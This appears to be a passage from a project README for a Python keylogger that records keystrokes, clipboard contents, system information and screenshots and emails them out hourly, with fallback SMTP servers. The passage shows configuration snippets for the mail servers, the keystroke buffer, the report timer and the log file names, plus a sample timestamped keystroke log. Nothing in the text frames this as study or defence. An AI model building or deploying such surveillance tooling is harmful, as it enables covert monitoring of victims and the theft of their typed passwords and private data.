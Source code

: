 ## 📧 Email Reporting

### Automated Hourly Reports
- **Subject**: "Hourly Report - Session 2h 30m Active"
- **Content**: Session duration, timestamps, file attachments
- **Attachments**: All 4 monitoring files with hour-specific naming

### Emergency Reports
- **Subject**: "EMERGENCY - Complete System Report"
- **Content**: Final session summary with total duration
- **Attachments**: Final versions of all monitoring files

### Email Configuration
```python
# Multiple SMTP server support with automatic fallback
smtp_servers = [
    ('smtp.gmail.com', 587),      # Primary
    ('smtp.outlook.com', 587),    # Fallback 1
    ('smtp.mail.yahoo.com', 587)  # Fallback 2
]
```

## 🔧 Configuration Options

### Monitoring Intervals
```python
# Keystroke buffer size (triggers file write)
count >= 10  # Write every 10 keystrokes

# Hourly report interval
_hourly_timer = threading.Timer(3600.0, send_hourly_report)
```

### File Management
```python
# Log file names
keys_information = "key_log.txt"
system_information = "system_info.txt"
clipboard_information = "clipboard_info.txt"
screenshot_information = "screenshot_info.png"
```

## 📊 Log Format Examples

### Keystroke Log
```
[2025-06-30 14:23:15.123] h
[2025-06-30 14:23:15.234] e
[2025-06-30 14:23:15.345] l
[2025-06-30 14:23:15.456] l
[2025-06-30 14:23:15.567] o
[2025-06-30 14:23:15.678] [SPACEBAR]
[2025-06-30 14:23:15.789] [CTRL+C]
```

